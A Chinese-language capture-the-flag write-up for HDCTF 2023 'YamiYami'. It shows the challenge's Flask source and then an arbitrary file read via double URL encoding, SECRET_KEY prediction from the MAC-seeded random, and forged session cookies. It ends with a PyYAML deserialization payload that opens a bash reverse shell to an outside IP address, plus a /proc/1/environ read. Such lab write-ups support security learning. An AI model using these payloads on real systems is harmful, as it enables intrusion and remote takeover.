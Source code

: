 #  [HDCTF 2023]YamiYami

## 0、知识点

>   python伪随机数

>   Session伪造

>   任意文件读取

>   Pyyaml反序列化



## 解题

-   打开题目主页可以发现存在三个地址

    -   `href="/read?url=https://baidu.com"`
        -   根据地址名read猜测可以读文件，url可以联想到SSRF，进而可以尝试是否存在任意文件读取
    -   `href="/upload"`
    -   `href="/pwd"`
        -   打开 会显示一个路径`/app`

-   然后尝试读源码

-   使用file:///app.py

    -   发现存在过滤返回：`re.findall('app.*', url, re.IGNORECASE)`
    -   绕过方式双重URL编码绕过

-   绕过后并未发现源码，想起pwd显示的路径

    -   最终playload

    -   ```nginx
        http://node2.anna.nssctf.cn:28636/read?url=file:///%25%36%31%25%37%30%25%37%30/%25%36%31%25%37%30%25%37%30.py
        ```

>   获取到源码

```python
encoding:utf-8
import os
import re, random, uuid
from flask import *
from werkzeug.utils import *
import yaml
from urllib.request import urlopen
app = Flask(__name__)


'''
    # UUID 的第一个版本的值是基于主机的 MAC 地址来计算的
    # uuid 模块使用 getnode() 来获取当前系统的 MAC 地址值
    # 如果一个系统的网卡不止一块，那么就有多个 MAC 地址，因此返回的值可能是其中的任意一个。
    # uuid.getnode()返回的值是Mac值的16进制形式，但是去掉了中间的冒号
    if __name__ == '__main__':
        random.seed(0x0242ac024cce)
        print(str(random.random() * 233))
'''
random.seed(uuid.getnode())
app.config['SECRET_KEY'] = str(random.random()*233)
app.debug = False
# 黑名单
BLACK_LIST=["yaml","YAML","YML","yml","yamiyami"]

# 文件上传的位置
app.config['UPLOAD_FOLDER']="/app/uploads"

@app.route('/')
def index():
    session['passport'] = 'YamiYami'
    return '''
    Welcome to HDCTF2023 <a href="/read?url=https://baidu.com">Read somethings</a>
    <br>
    Here is the challenge <a href="/upload">Upload file</a>
    <br>
    Enjoy it <a href="/pwd">pwd</a>
    '''
@app.route('/pwd')
def pwd():
    return str(pwdpath)
@app.route('/read')
def read():
    try:
        url = request.args.get('url')
        m = re.findall('app.*', url, re.IGNORECASE)
        n = re.findall('flag', url, re.IGNORECASE)
        if m:
            return "re.findall('app.*', url, re.IGNORECASE)"
        if n:
            return "re.findall('flag', url, re.IGNORECASE)"
        res = urlopen(url)
        return res.read()
    except Exception as ex:
        print(str(ex))
    return 'no response'

def allowed_file(filename):
  	for blackstr in BLACK_LIST:
        if blackstr in filename:
           	return False
   	return True
@app.route('/upload', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        if 'file' not in request.files:
            flash('No file part')
            return redirect(request.url)
        file = request.files['file']
        if file.filename == '':
            return "Empty file"
        if file and allowed_file(file.filename):
            filename = secure_filename(file.filename)
            if not os.path.exists('./uploads/'):
                os.makedirs('./uploads/')
            file.save(os.path.join(app.config['UPLOAD_FOLDER'], filename))
            return "upload successfully!"
    return render_template("index.html")
@app.route('/boogipop')
def load():
    if session.get("passport")=="Welcome To HDCTF2023":

        LoadedFile=request.args.get("file")
        # 判断文件是否存在
        if not os.path.exists(LoadedFile):
            return "file not exists"
        # with as 用来处理文件内容
        with open(LoadedFile) as f:
            # yaml.full_load() 将YAML 格式的字符串或文件加载成Python 对象
            yaml.full_load(f)
            f.close()
        return "van you see"
    else:
        return "No Auth bro"
if __name__=='__main__':
    pwdpath = os.popen("pwd").read()
    app.run(
        debug=False,
        host="0.0.0.0"
    )
    print(app.config['SECRET_KEY'])
```

>   分析后得出，首先需要进行session伪造 -> `if session.get("passport")=="Welcome To HDCTF2023":`

>   怎么进行session伪造查看这篇文章：https://cbatl.gitee.io/2020/11/15/Flask-session/

>   但伪造session的前提是需要知道：`SECRET_KEY`，
>
>   这个参数值主要是由这里生成的`random.seed(uuid.getnode())`
>
>   `uuid.getnode():`返回的值是Mac值的16进制形式，但是去掉了中间的冒号

>   linux的网卡地址在：`/sys/class/net/eth0/addres`中

>   读取网卡的值：02:42:ac:02:4d:ad，然后使用以下脚本计数SECRET_KEY`值

```py
import random

if __name__ == '__main__':
    random.seed(0x0242ac024dad)
    print(str(random.random() * 233))
   	# 结果：132.76992396847822
```

>   然后进行伪造使用命令

```nginx
python3.9 flask_session_cookie_manager3.py decode -c "eyJwYXNzcG9ydCI6IllhbWlZYW1pIn0.ZEiQZA.MxDCX2hJb-pvOeb7T3U48RhsrtI" -s "132.76992396847822"
# 结果为：{'passport': 'YamiYami'}
```

```nginx
python3.9 flask_session_cookie_manager3.py encode -t "{'passport': 'Welcome To HDCTF2023'}" -s  "132.76992396847822"
# 结果为：eyJwYXNzcG9ydCI6IldlbGNvbWUgVG8gSERDVEYyMDIzIn0.ZEiSkQ.UJ6u_SeyNSd2dTKGE0yuBEROShs
```

>   然后将得到session值放入请求头

>   然后就是pyyaml的反序列，看了下出题人的payload，使用了反弹shell

```yaml
!!python/object/new:str
    args: []
    state: !!python/tuple
      - "__import__('os').system('bash -c \"bash -i >& /dev/tcp/114.116.119.253/7777 <&1\"')"
      - !!python/object/new:staticmethod
        args: []
        state:
          update: !!python/name:eval
          items: !!python/name:list
```

>   上传成功后去访问这个文件就会触发

>   **另外这题还有一个非预期解**

>   **直接使用file协议读取环境变量值 就可以拿到flag**：`file:///proc/1/environ`
